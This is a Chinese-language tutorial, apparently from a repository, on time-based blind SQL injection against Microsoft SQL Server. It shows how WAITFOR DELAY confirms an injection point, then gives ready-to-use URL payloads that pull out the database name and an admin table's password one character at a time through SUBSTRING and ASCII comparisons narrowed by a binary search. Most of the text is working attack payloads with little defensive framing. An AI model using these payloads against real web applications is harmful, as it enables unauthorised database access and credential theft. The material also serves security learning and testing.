


## 1、简介

WAITFOR是SQLServer中Transact-SQL提供的一个流程控制语句。它的作用就是等待特定时间，然后继续执行后续的语句。它包含一个参数DELAY，用来指定等待的时间。waitfor delay '0:0:5' 等待5秒再执行操作 ，页面将5秒之后返回 

```sql
select 1 waitfor delay '0:0:5'
```

## **2、判断注入**

```http
http://www.demo1.com/index.aspx?id=1 waitfor delay '0:0:5'
```

页面延时5秒返回

SUBSTRING 截取字符串

## **3、查询信息**

数据库版本 (select @@version)

数据库名 (select db_name())

获取密码 (select password from admin)

## **4、截取字符判断法**

DB_NAME()        mydb

SUBSTRING：从第一位开始取一位

```sql
select SUBSTRING(DB_NAME(),1,1)
```

if m=m 

```sql
select * from art where id=1 if(SUBSTRING(DB_NAME(),1,1)=CHAR(109)) waitfor delay '0:0:5'
select * from art where id=1 if(SUBSTRING(DB_NAME(),1,1)='m') waitfor delay '0:0:5' 
```

测试

```http
http://www.demo1.com/index.aspx?id=1 if(SUBSTRING(DB_NAME(),1,1)=CHAR(109)) waitfor delay '0:0:5' --
```

 

```http
http://www.demo1.com/index.aspx?id=1 if(SUBSTRING(DB_NAME(),1,1)='m') waitfor delay '0:0:5'
```

## 5、 ascii码半截法

ascii 把字符转成ascii码

```sql
select * from art where id=1 IF ASCII(SUBSTRING(DB_NAME(),1,1))=109 WAITFOR DELAY '0:0:5'
```

```http
http://www.demo1.com/index.aspx?id=1 IF ASCII(SUBSTRING(DB_NAME(),1,1))=109 WAITFOR DELAY '0:0:5' --
```

 

```sql
select * from art where id=1 IF ASCII(SUBSTRING(DB_NAME(),1,1))>50 WAITFOR DELAY '0:0:5'
```

```http
http://www.demo1.com/index.aspx?id=1 IF ASCII(SUBSTRING(DB_NAME(),1,1))>50 WAITFOR DELAY '0:0:5'--
```

1-126 遍历去对比要好一些 假如数据大的话就可以节省很多的时间。0-126 共127个。（高等数学中的二分法）

```bash
大于50 值在51-127 
大于74 值在74-127
以此类推
```

查询password 的第一个密文的ascii码

```sql
select * from art where id=1 IF ASCII(SUBSTRING((select password from admin),1,1))=101 WAITFOR DELAY '0:0:5'
```

测试

```http
http://www.demo1.com/index.aspx?id=1 IF ASCII(SUBSTRING((select password from admin),1,1))=101 WAITFOR DELAY '0:0:5' --
```

